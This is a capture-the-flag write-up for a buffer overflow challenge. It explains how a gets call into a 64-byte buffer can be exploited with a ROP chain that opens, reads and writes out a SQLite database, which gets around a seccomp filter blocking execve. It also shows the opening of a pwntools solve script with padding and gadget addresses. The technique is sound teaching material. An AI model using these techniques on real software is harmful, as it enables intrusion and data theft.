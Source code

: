 As we can see, there is a `gets` call in `read_name` to a 64-byte long buffer in `main`. This is a simple buffer overflow challenge, with `NX`-bit set so we cannot execute the stack and the `execve` (`59`) and `execveat` (`322`) syscalls are disabled using `seccomp`:

```c
__int64 disable_exec_syscall()
{
  int v0; // r8d
  int v1; // r9d
  int v2; // r8d
  int v3; // r9d

  ctx = seccomp_init(2147418112LL);
  seccomp_rule_add(ctx, 0, 59, 0, v0, v1);
  seccomp_rule_add(ctx, 0, 322, 0, v2, v3);
  return seccomp_load(ctx);
}
```

The goal is to get the `flag` from the `flag` table of the `messages.db` SQLite3 database.

The `open`, `read` and `write` `syscalls` are not disabled so we can theoretically write a ROP-chain to `open` `messages.db`, `read` all of its contents and `write` them out to ourselves.

To open the database (creating a file descriptor) (check the respective manuals)
- `RAX` should be `2`, which is the number of the `open` `syscall`
- `RDI` should be a pointer to the filename string (`messages.db`)
- `RSI` should be `0`, which means `O_RDONLY` (we want to read from the file)

To read the database:
- `RAX` should be `0`, which is the number of the `read` `syscall`
- `RDI` should be the file descriptor number returned by the previous `open` (likely `3` if no other files are open by the process)
- `RSI` should point to a writeable buffer, for example the address of the `.data` section
- `RDX` should be the number of bytes we want to read to the buffer

The write to content to `stdout`:
- `RAX` should be `1`, which is the number of the `write` `syscall`
- `RDI` should be the file descriptor number of `stdout` which is `1`
- `RSI` should point to the buffer where the data is stored
- `RDX` should be the number of bytes we want to write to `stdout`

Using `ROPGadget` we can find the necessary ROP gadgets to create a ROP chain which does exactly the previous steps ([`solve.py`](files/solve.py)):

```python
from pwn import *
from struct import pack

# ROPgadget --binary ./out/prequels | grep "pop rdx ; pop rbx ; ret"

# Padding
p = b'a'*(64+8)

POP_RSI_RET =         0x0000000000401ff4
POP_RDI_RET =         0x0000000000401ff2
XOR_RAX_RAX_RET =     0x000000000052ce60
POP_RAX_RET =         0x00000000004df887
SYSCALL =             0x000000000053D10E
POP_RDX_POP_RBX_RET = 0x00000000005141ae
DATA_SECTION =        0x000000000063b140

MESSAGESDB =          0x00000000005A107F

CONST_0 =             0x0000000000000000
CONST_1 =             0x0000000000000001
CONST_2 =             0x0000000000000002
CONST_3 =             0x0000000000000003
```